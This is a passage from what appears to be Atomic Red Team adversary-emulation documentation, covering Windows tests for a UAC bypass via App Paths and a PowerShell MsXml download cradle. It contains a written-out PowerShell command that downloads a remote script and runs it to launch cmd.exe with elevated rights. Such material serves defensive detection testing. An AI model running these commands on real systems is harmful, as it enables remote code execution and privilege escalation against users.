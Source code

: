 




<br/>
<br/>

## Atomic Test #6 - Invoke-AppPathBypass
Note: Windows 10 only. Upon execution windows backup and restore window will be opened.

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows


**auto_generated_guid:** 06a220b6-7e29-4bd8-9d07-5b4d86742372






#### Attack Commands: Run with `command_prompt`! 


```cmd
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```






<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - with prompt
Powershell MsXml COM object. Not proxy aware, removing cache although does not appear to write to those locations. Upon execution, "Download Cradle test success!" will be displayed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 388a7340-dbc1-4c9d-8e59-b75ad8c6d5da





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1|


#### Attack Commands: Run with `command_prompt`! 
